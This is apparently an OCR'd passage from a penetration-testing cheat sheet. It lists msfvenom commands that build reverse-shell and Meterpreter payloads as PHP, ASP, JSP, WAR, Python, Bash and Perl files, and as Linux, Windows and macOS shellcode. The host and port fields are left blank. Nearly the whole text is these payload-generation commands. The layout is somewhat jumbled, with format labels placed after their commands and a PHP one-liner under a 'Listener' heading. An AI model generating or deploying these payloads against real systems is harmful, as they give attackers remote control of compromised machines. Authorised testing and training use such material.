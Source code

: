 - Listener

```bash
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

- PHP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp
```

- ASP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp
```

- JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war
```

- WAR

### **Scripting Payloads**

```bash
msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py
```

- Python

```bash
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh
```

- Bash

```bash
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl
```

- Perl

### **Shellcode**

For all shellcode see ‘msfvenom –help-formats’ for information as to
valid parameters. Msfvenom will output code that is able to be cut and
pasted in this language for your exploits.

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f
```

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f
```
